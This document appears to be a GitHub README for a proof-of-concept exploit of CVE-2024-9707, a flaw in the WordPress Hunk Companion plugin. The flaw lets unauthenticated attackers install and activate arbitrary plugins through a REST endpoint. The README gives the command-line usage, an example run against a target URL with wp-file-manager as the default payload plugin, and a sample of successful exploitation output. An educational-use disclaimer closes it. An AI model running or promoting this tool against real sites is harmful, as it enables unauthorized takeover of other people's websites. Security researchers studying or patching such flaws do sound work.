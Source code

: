 # CVE-2024-9707-Poc 🌐
# Description
This script exploits the vulnerability in the WordPress Hunk Companion plugin (CVE-2024-9707), allowing unauthorized attackers to install and activate arbitrary plugins via the /wp-json/hc/v1/themehunk-import REST API endpoint.

## Features
| **Feature**                | **Description**                                              |
|----------------------------|--------------------------------------------------------------|
| Plugin Version Detection   | Automatically checks the plugin version.                    |
| Vulnerability Check        | Determines if the detected version is vulnerable (<= 1.8.4). |
| Plugin Installation        | Exploits the vulnerability to install and activate a specified plugin. |

## 🛠️ Installation and Usage:

### Prerequisites
- Python 3.x installed on your system.
- Required Python libraries: `requests`, `argparse`.

### Install the dependencies:
```bash
pip install requests
```
### Usage:
```
options:
  -h, --help            show this help message and exit
  -u URL, --url URL     Base URL of the WordPress site.
  -p PLUGIN, --plugin PLUGIN
                        Plugin name (default: wp-file-manager).
```

2- Run the script
```
python CVE-2024-9707.py -u <TARGET_URL> [-p <PLUGIN_NAME>]
```

### Example:
```
python CVE-2024-9707.py -u https://example.com -p wp-file-manager

```
### Output
- **Version Detection**: Displays the detected version of the Hunk Companion plugin.
- **Vulnerability Status**: Informs whether the target is vulnerable.
- **Exploit Status**: Displays the result of the plugin installation attempt.

### Successful Output

```
Detected version: 1.8.4
The site is vulnerable. Proceeding with exploitation.
Plugin installed and activated successfully.
Response Status: 200
Response Body: "http:\/\/192.168.100.74\/wordpress"
```

### 🚫 Disclaimer
This script is for educational purposes only. Use it responsibly and only on systems you own or have explicit permission to test. The authors are not responsible for any misuse or damage caused by this tool.
by: Khaled_alenazi | Nxploited
